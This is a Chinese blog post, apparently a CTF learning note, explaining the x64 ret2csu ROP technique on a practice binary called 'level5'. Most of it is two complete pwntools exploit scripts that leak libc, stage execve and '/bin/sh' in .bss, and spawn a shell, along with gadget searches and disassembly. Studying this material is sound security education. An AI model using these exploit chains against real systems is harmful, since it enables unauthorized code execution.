 ﻿---
layout:     post
title:      栈溢出基础浅记（2）
subtitle:   中级rop（ret2csu）
date:       2023-10-06
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

这部分的内容主要是针对x64的栈溢出ROP，首先回顾一下x86和x64的函数调用区别。

- x86
  - **函数参数**在**函数返回地址**的上方
- x64
  - System V AMD64 ABI (Linux、FreeBSD、macOS 等采用) 中前六个整型或指针参数依次保存在 **RDI, RSI, RDX, RCX, R8 和 R9 寄存器**中，如果还有更多的参数的话才会保存在栈上。
  - 内存地址不能大于 0x00007FFFFFFFFFFF，**6 个字节长度**，否则会抛出异常。

## [ret2csu]([中级ROP - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#ret2csu))

### wiki里面的方法

官方的exp略加修改为python3的形式：

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 我的方法

我的方法和wiki大差不差，利用的ROP略有区别

漏洞位置不再赘述，简单的栈溢出，同样可以通过查看gdb得知输入位置和rbp的距离

 ![16966710635071696671062616.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16966710635071696671062616.png)

需要填充0x80个字节，为了能够修改控制函数的执行，首先要能控制rdi和rsi。

使用ROPgadget寻找pop rdi和rsi，发现都是有的

```
❯ ROPgadget --binary level5 --only 'ret|pop' | grep rdi
0x0000000000400623 : pop rdi ; ret
❯ ROPgadget --binary level5 --only 'ret|pop' | grep rsi
0x0000000000400621 : pop rsi ; pop r15 ; ret
```

> 以下是pop指令与各个寄存器的机器码：
>
> pop rax：0x58
>
> pop rbx：0x5B
>
> pop rcx：0x59
>
> pop rdx：0x5A
>
> pop rsi：0x5E
>
> pop rdi：0x5F
>
> pop rbp：0x5D
>
> pop rsp：0x5C
>
> pop r8：0x41 58
>
> pop r9：0x41 59
>
> pop r10：0x41 5A
>
> pop r11：0x41 5B
>
> pop r12：0x41 5C
>
> pop r13：0x41 5D
>
> pop r14：0x41 5E
>
> pop r15：0x41 5F
>
> 
>
> 特别注意到，pop r8到r15这些寄存器的机器码后面一个字节是和前面的寄存器有重合的，所以可以利用这点，有pop r15,就相当于有了pop rdi。

> 查找libc中函数调用方式：https://elixir.bootlin.com/glibc/glibc-2.35

- payload1：调用write函数输出write_got的地址，从而泄露libc地址

  write(1,write_got)，返回main函数

- payload2：调用read函数将execve_addr和'/bin/sh\x00'写入bss段

  read(0,bss_base)返回main函数

- payload3：一开始是想直接调用execve_addr，执行/bin/sh，但是失败了，因为执行sys_execve时需要rdx为0，没有直接的方法修改rdx，所以使用了类似wiki的方法，具体见下面的exp

```python
#!/usr/bin/env python

from pwn import *
from LibcSearcher import LibcSearcher

sh = process('./level5')
level5 = ELF('./level5')

write_got = level5.got['write']
read_plt = level5.plt['read']
write_plt = level5.plt['write']
main_addr = level5.symbols['main']
bss_base = level5.bss()
pop_rdi = 0x0000000000400623
pop_rsi_pop_r15 = 0x0000000000400621

payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(1) + p64(pop_rsi_pop_r15) + p64(write_got) + p64(0) + p64(write_plt) + p64(main_addr)
# gdb.attach(sh)
sh.recvuntil(b'Hello, World\n')
sh.send(payload)

write_addr = u64(sh.recv(8))
log.success('write_addr ' + hex(write_addr))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))

sh.recvuntil(b'Hello, World\n')
payload= b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(0) + p64(pop_rsi_pop_r15) + p64(bss_base) + p64(0) + p64(read_plt) + p64(main_addr)
sh.send(payload)
sh.send(p64(execve_addr) + b'/bin/sh\x00')
sh.recvuntil(b'Hello, World\n')
# gdb.attach(sh)
# 不能直接用下面的payload，因为执行execve时，进行系统调用时需要rdx为0，我们没有办法控制rdx，经测试此时rdx为0x200，导致execve失败
# payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(bss_base + 8) + p64(pop_rsi_pop_r15) +p64(0) + p64(0) + p64(execve_addr) + p64(main_addr)

# .text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54
# .text:0000000000400600                 mov     rdx, r13
# .text:0000000000400603                 mov     rsi, r14
# .text:0000000000400606                 mov     edi, r15d
# .text:0000000000400609                 call    qword ptr [r12+rbx*8]
# .text:000000000040060D                 add     rbx, 1
# .text:0000000000400611                 cmp     rbx, rbp
# .text:0000000000400614                 jnz     short loc_400600

# .text:000000000040061A                 pop     rbx
# .text:000000000040061B                 pop     rbp
# .text:000000000040061C                 pop     r12
# .text:000000000040061E                 pop     r13
# .text:0000000000400620                 pop     r14
# .text:0000000000400622                 pop     r15
# .text:0000000000400624                 retn
# 利用上面的这些指令，可以先通过修改r13,r14,r15间接修改rdx,rsi,rdi分别为0,0,bss_base
# 然后通过修改rbx和r12，使得0x400609调用的函数设置为bss_base中所指的函数，这样就可以执行execve了

loc_400600 = 0x0000000000400600
pop_rbx_rbp_r12_r13_r14_r15 = 0x000000000040061A
# gdb.attach(sh)
payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rbx_rbp_r12_r13_r14_r15) + p64(0) + p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8) + p64(loc_400600)
# 输出payload的长度
log.success('payload3 length ' + str(len(payload)))
sh.send(payload)
sh.interactive()

```

花了一下午时间，也算是有点收获吧~

总的来说，wiki提供了一种通用解法，可以方便的修改多个寄存器，有时候为了快捷，可以优先考虑ret2csu！
